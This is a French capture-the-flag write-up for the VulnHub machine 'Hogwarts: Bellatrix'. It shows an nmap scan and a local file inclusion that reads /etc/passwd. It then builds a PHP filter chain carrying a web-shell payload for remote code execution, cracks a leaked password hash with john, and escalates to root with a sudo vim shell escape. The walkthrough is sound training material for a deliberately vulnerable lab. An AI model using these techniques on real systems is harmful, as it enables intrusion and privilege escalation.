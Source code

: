 # Solution du CTF Hogwarts: Bellatrix de VulnHub

Le CTF [Hogwarts: Bellatrix](https://vulnhub.com/entry/hogwarts-bellatrix,609/) est un boot2root que je qualifierais de facile. Il y a un peu de jeu de piste mais n'entre jamais dans le mauvais penchant du guessing.

```
Nmap scan report for 192.168.56.64
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4bcec75a9c1f8bcd4703086985c29149 (RSA)
|   256 a12aa8159904cc2a1ee35000f355c2cc (ECDSA)
|_  256 2cd3ec6f4f5b4ae0ea0ac30d2fcb7817 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

Sur le site web on trouve ce texte :

```
ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack

--- snip ---

ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack.php
```

et dans le code HTML de la page :

```html
    <!-- 
        Nah...this time there are no clues in the source code ... 
        o yeah, maybe I've already told you a directory .php? :)

    -->

/*

   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }

*/
```

Effectivement je trouve un fichier `ikilledsiriusblack.php` qui semble en tout point identique à la page d'index sauf que si on lui passe le paramètre `file` (ex: `file=/etc/passwd`) on obtient la LFI annoncée :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
--- snip ---
bellatrix:x:1000:1000:Bellatrix,,,:/home/bellatrix:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
lestrange:x:1001:1001::/home/lestrange:/bin/rbash
```

On peut déjà rermarquer la présence du `rbash` (restricted bash) comme login pour le compte `lestrange`.

Je ne perds plus mon temps à faire une injection dans un fichier de log, j'utilise directement la technique de chainage des filtres PHP avec [l'outil de Synacktiv](https://github.com/synacktiv/php_filter_chain_generator) :

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```

Je passe le résultat en paramètre de `file` et il ne reste qu'à rajouter mon paramètre `cmd` pour avoir ma RCE.

Déjà sous la racine web je trouve des fichiers étonnants :

```shellsession
www-data@bellatrix:/var/www/html$ ls -alR
.:
total 732
drwxr-xr-x 3 root      root        4096 Nov 28  2020  .
drwxr-xr-x 3 root      root        4096 Nov 28  2020  ..
-rw-rw-r-- 1 bellatrix bellatrix 728806 Nov 27  2020  1c19c879fe8ef134c3e051c2d69c0c66.gif
drwxr-xr-x 2 root      root        4096 Nov 28  2020 'c2VjcmV0cw=='
-rw-rw-r-- 1 bellatrix bellatrix    151 Nov 28  2020  ikilledsiriusblack.php
-rw-rw-r-- 1 bellatrix bellatrix   1728 Nov 28  2020  index.php

'./c2VjcmV0cw==':
total 16
drwxr-xr-x 2 root root 4096 Nov 28  2020 .
drwxr-xr-x 3 root root 4096 Nov 28  2020 ..
-rw-r--r-- 1 root root 1237 Nov 28  2020 .secret.dic
-rw-r--r-- 1 root root  117 Nov 28  2020 Swordofgryffindor
```

Le fichier `.secret.dic` est une wordlist de 114 lignes contenant des noms ou mots en rapport avec la saga *Harry Potter*.

Le fichier `Swordofgryffindor` contient le hash pour le compte vu précédemment :

`lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0`

Forcément ça ne prend pas long à casser et c'est l'une des caractéristiques des bons CTFs car entre passer une minute ou 2 jours à casser un mot de passe, il n'y a aucune différence au niveau des compétences requises, il suffit de savoir utiliser un outil :

```shellsession
$ ./john --wordlist=pass.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateharrypotter (lestrange)     
1g 0:00:00:00 DONE (2022-11-19 11:28) 9.090g/s 1036p/s 1036c/s 1036C/s gryffondor..wingardiumleviosa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une fois connecté on trouve une note dans un fichier `readme.txt` :

```shellsession
lestrange@bellatrix:~$ cat readme.txt
I WANT TO ESCAPE FROM THE PRISION OF AZKABAN

HAHAHAHHAHAHAHAHHAHAHAHHAHAHAHAHHAHAHAHHAHA!!!!

YOU WONT BE ABLE TO ME, POTTER!! I WAS AND STILL AM THE DARK LORD'S MOST 
LOYAL SERVANT.
```

L'utilisatrice a le droit d'exécuter une commande via sudo :

```shellsession
lestrange@bellatrix:~$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

La technique est bien sûr d'échapper de vim avec `:!/bin/bash` qui nous donne les droits root :

```shellsession
lestrange@bellatrix:~$ sudo /usr/bin/vim

root@bellatrix:/home/lestrange# cd /root
root@bellatrix:~# ls
root.txt  script.sh  snap
root@bellatrix:~# cat root.txt
 ____       _ _       _        _      
 |  _ \     | | |     | |      (_)     
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  < 
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\
  _               _                              
 | |             | |                             
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___ 
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |     
                                      |___/ 

root{ead5a85a11ba466011fced308d460a76}
root@bellatrix:~# cat script.sh
#!/bin/bash

chmod 775 /var/log/auth.log

exit
```

On voit un script qui effectue un chmod sur `auth.log`, il était sans doute destiné à faciliter l'injection de code PHP pour la LFI.

Il y avait aussi un flag dans `/home/bellatrix`. La commande `cd` était restreinte mais les commandes `ls` et cat `non` donc il n'y avait pas de difficultées majeures à obtenir le flag.

*Publié le 19 novembre 2022*
